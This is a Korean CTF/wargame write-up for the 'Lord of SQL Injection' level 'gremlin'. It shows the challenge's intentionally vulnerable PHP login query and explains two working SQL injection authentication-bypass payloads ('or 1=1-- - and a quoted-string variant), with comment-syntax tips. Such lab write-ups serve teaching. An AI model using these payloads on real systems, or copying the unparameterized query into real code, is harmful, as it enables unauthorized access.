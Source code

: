 Lord of SQL Injection No.1 - gremlin
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
위 코드에서 알수 있는 것
-------------
4번째와 5번째줄 if문의 preg_match에서 id와 pw에 . 이나 ()가 들어가있으며 No Hack ~_~라고 뜨고 문제 풀이에 실패하게되는걸 알수있다.
DB에 저장되있는 값인 $result[id]에 어떠한 값이라도 들어가 있으면 문제를 풀수있다.

문제풀이 법
-------------
1. http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or 1=1-- -
그냥 읽어보자면 아이디의 값이 123이거나 1=1 곧 참이라는 것이다.
뒤에 -- -는 뒤에 올 pw 및 다른 값들을 입력하지 않아도 되도록 주석처리를 하는것이다.

  *주석처리 법 --%20(%20은 공백), #,/**/

  id=123 or 1=1-- -이 아니라 id=123' 싱글 쿼터로 닫아 줌으로써 하나의  id 값을 마무리해주면 sql문을 입력할 수 있게되는데
  or연산은 앞에 값이 틀리더라도 뒤의 값이 참이면 참이게 되는 연산으로 or연산을 써줌으로 $result[id]가 참이 되어 문제가 풀리게된다.

2. http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or%20'123'%20-- -
이번 방법은 위의 방법과 동일하지만 '0'이 아닌 어떠한 문자열이 들어오게되면 이 값은 참으로 받아들여지게되어 문제가 풀리게된다.
